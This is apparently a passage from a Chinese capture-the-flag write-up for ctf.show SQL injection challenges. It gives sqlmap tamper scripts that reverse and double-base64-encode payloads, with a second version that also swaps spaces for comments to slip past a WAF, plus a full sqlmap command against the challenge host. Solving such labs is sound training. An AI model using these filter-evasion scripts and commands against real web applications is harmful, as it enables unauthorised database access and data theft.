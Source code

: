 ```cobol
import base64
 
from lib.core.enums import PRIORITY
from lib.core.common import singleTimeWarnMessage
 
__priority__=  PRIORITY.NORMAL
 
def dependencies():
    singleTimeWarnMessage("空格置换/**/、双写绕过select")
def tamper(payload,**kwargs):
    payload = payload[::-1]
    payload1= base64.b64encode(payload.encode('utf-8')).decode('utf-8')
    payload1 = payload1[::-1]
    payload2= base64.b64encode(payload1.encode('utf-8')).decode('utf-8')
    return payload2
```

```cobol
py3 .\sqlmap.py -u  "http://5dbc9b5c-7078-4015-8328-e47fe5cfe69d.challenge.ctf.show/api/index.php" --headers  "Content-Type: text/plain" --method PUT  --data "id=1" --level 3  --safe-url="http://5dbc9b5c-7078-4015-8328-e47fe5cfe69d.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper 2.py -v3 
```

## web211  加密配合过滤

```php
//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ /', $str);
}
```

在前面的基础上 进行过滤 那我们直接在加密前 先替换即可

```cobol
import base64
 
from lib.core.enums import PRIORITY
from lib.core.common import singleTimeWarnMessage
 
__priority__=  PRIORITY.NORMAL
 
def dependencies():
    singleTimeWarnMessage("空格置换/**/、双写绕过select")
def tamper(payload,**kwargs):
    payload = payload.replace(" ","/**/")
    payload = payload[::-1]
    payload1= base64.b64encode(payload.encode('utf-8')).decode('utf-8')
    payload1 = payload1[::-1]
    payload2= base64.b64encode(payload1.encode('utf-8')).decode('utf-8')
    return payload2
```
